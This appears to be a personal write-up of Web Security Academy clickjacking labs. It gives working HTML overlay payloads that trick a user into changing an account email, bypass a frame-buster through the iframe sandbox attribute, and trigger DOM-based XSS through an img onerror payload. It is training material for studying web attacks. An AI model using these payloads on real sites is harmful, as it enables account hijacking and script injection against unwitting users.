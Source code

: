 # Clickjacking

## Clickjacking with form input data from a URL parameter
- Overlay an iframe with a URL to the change email resource, with an email in there as the query parameter. Position the "Click Me" button 
```
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 465px;
        left: 90px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0f00cb04fe73b982b56b6e00fe0054.web-security-academy.net/my-account?email=evil@hacker1.net"> </iframe>
```
- Clickjacking with a frame buster script
    - [Stanford framebusting article](https://seclab.stanford.edu/websec/framebusting/)

The web page uses this javascript code to detect if it is embedded in an iframe, and replace the contents of the body if it is:
```
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
```
We can exploit the iframe sandbox attribute to bypass this by assigning it to the "allow-forms" directive. [w3schools iframe sandbox](https://www.w3schools.com/tags/att_iframe_sandbox.asp)
```
<iframe src="https://0a2f00850357cb87b9c1f11a00e70021.web-security-academy.net/my-account?email=evil@hacker.net" sandbox="allow-forms">
</iframe>
```

- Exploiting clickjacking vulnerability to trigger DOM-based XSS
  - Exploiting the sink in which the feedback form renders the name input without sanitization to inject an img tag which calls onprint. The URL has the hash #feedbackResult to position the screen futher down for the clickjacking overlay.
```
<style>
iframe {
    width: 1500px;
    height: 800px;
    position: abosolute;
    opacity: 0.1;
    z-index: 2;
}
div {
    position: relative;
    top: 740px;
    left: 130px;
    z-index: 1;
}
</style>
<div>Click here</div>
<iframe src="https://0ae60084045a3d9482a951c200d2005a.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=foo%40bar.com&subject=foo&message=foo#feedbackResult"></iframe>
```
